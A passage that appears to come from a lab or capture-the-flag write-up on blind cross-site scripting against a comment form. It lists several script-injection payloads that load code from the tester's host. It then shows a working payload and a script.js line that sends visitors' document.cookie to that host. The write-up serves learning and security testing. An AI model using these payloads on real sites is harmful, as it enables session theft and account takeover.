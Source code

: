 * We can test the following payloads for the respective fields for blind XSS (we can skip name and email field as it is checked here):

  ```html
  <script src=http://10.10.14.98/comment></script>
  <script src=http://10.10.14.98/website></script>

  '><script src=http://10.10.14.98/comment></script>
  '><script src=http://10.10.14.98/website></script>

  "><script src=http://10.10.14.98/comment></script>
  "><script src=http://10.10.14.98/website></script>

  javascript:eval('var a=document.createElement(\'script\');a.src=\'http://10.10.14.98/comment\';document.body.appendChild(a)')
  javascript:eval('var a=document.createElement(\'script\');a.src=\'http://10.10.14.98/website\';document.body.appendChild(a)')

  <script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//10.10.14.98/comment");a.send();</script>
  <script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//10.10.14.98/website");a.send();</script>

  <script>$.getScript("http://10.10.14.98/comment")</script>
  <script>$.getScript("http://10.10.14.98/website")</script>
  ```

* The payload ```"><script src=http://10.10.14.98/website></script>``` works and we get a response back in our PHP server.

* So, we can create a ```script.js``` file with the payload ```new Image().src='http://10.10.14.98/index.php?c='+document.cookie;``` and restart the PHP server.

* Now, if we use the payload ```"><script src=http://10.10.14.98/script.js></script>``` for the 'website' field, we get a response back with the cookie value fetched.
